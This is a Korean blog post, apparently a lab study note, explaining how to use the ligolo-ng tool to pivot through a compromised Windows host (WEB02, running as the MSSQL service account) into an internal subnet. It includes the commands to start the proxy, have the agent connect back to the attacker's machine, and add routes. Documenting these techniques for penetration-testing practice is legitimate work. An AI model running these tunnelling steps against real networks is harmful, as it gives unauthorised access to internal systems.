 ```yaml
---
layout: post
title: ligolo-ng 사용법
subtitle: logolo-ng를 이용해서 포트포워딩, 네트워크 피보팅하기
category: knowledge
thumbnail-img: /assets/img/knowledge/ligolo_logo.png
tags: [ligolo, ligolo-ng, proxy, pivot, portforwarding]
author: Hong
---
```


우선 서버와 클라이언트에서 사용할 proxy, agent 바이너리 파일을 각각 다운받아야한다.

[깃허브](https://github.com/nicocha30/ligolo-ng)에서 다운로드.

SOCKS프록시를 사용하지 않기 때문에 설정 필요없고 간편하다.

kali에서 터널 준비 & 기동

```
sudo ip tuntap add user [your_username] mode tun [원하는 이름]

sudo ip link set [원하는 이름] up
```

버전이 0.6이상이라면 더 간편하게 아래의 커맨드로 터널 인터페이스를 만들 수 있다.

```
ligolo-ng » interface_create --name "evil-cha"
INFO[3185] Creating a new "evil-cha" interface...
INFO[3185] Interface created!
```

서버에서 원하는 포트 지정.

```
 ./proxy -selfcert -laddr "0.0.0.0:7878"
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
WARN[0000] Using self-signed certificates
WARN[0000] TLS Certificate fingerprint for ligolo is: 961A1B781DE6D16C89601ACCC6FF50A1BA11F96D9A6B880CD9EE0C4DA1B2E7DD
INFO[0000] Listening on 0.0.0.0:7878
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: 0.7.5

ligolo-ng »
```

agent 바이너리 파일을 타겟 시스템에 배치한 후 아래의 명령어로 연결.

```
PS C:\temp> .\agent.exe -connect 192.168.45.211:7878 -ignore-cert
```

서버에서 접속된 것을 확인.

session명령어로 연결된 세션을 확인 할 수 있다.

```
ligolo-ng » INFO[0193] Agent joined.                                 id=2f93be9e-5c04-4ff8-bc57-d091c33b86d2 name="NT Service\\MSSQL$SQLEXPRESS@WEB02" remote="192.168.165.121:65289"

ligolo-ng » session
? Specify a session : 1 - NT Service\MSSQL$SQLEXPRESS@WEB02 - 192.168.165.121:65289 - 2f93be9e-5c04-4ff8-bc57-d091c33b86d2
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] »
```

```
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:ab:ad:c1              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 192.168.165.121/24             │
└──────────────┴────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:ab:f2:9d              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.165.254/24              │
└──────────────┴────────────────────────────────┘
┌──────────────────────────────────────────────┐
│ Interface 2                                  │
├──────────────┬───────────────────────────────┤
│ Name         │ Loopback Pseudo-Interface 1   │
│ Hardware MAC │                               │
│ MTU          │ -1                            │
│ Flags        │ up|loopback|multicast|running │
│ IPv6 Address │ ::1/128                       │
│ IPv4 Address │ 127.0.0.1/8                   │
└──────────────┴───────────────────────────────┘
```

프록시 경유로 접속하고 싶은 네트워크 대역을 라우팅 테이블에 추가.

```
$ sudo ip route add 172.16.157.0/24 dev [터널 이름] # 이 예시에서는 터널이름이 ligolo
```

아래의 명령어로 추가되었는지 확인.

```
ip route list

default via 172.27.16.1 dev eth0 proto kernel
172.16.157.0/24 dev ligolo scope link
172.27.16.0/20 dev eth0 proto kernel scope link src 172.27.26.112
192.168.45.0/24 dev tun0 proto kernel scope link src 192.168.45.165
192.168.157.0/24 via 192.168.45.254 dev tun0
```

혹은 버전 0.6이상이라면 아래의 커맨드로 더 간편.

```
ligolo-ng » interface_add_route --name evil-cha --route 192.168.2.0/24
INFO[3206] Route created.
```

여기까지했으면 설정 완료.
서버의 ligolo쉘로 돌아가서 start를 입력하면 프록시가 시작된다.

```
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » start --tun hong
[Agent : NT Service\MSSQL$SQLEXPRESS@WEB02] » INFO[0153] Starting tunnel to NT Service\MSSQL$SQLEXPRESS@WEB02 (b65486e1-4af3-411a-9b9e-2ea3d71d6ed9)
```

kali에서 설정한 네트워크에 문제없이 통신이 가능해진다.

# 참고자료

관련 유튜브 영상의 [링크](https://www.youtube.com/watch?v=DM1B8S80EvQ&ab_channel=GonskiCyber)

참고한 블로그 [링크](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)

**공식 깃허브 페이지** [링크](https://github.com/nicocha30/ligolo-ng/wiki/Quickstart)
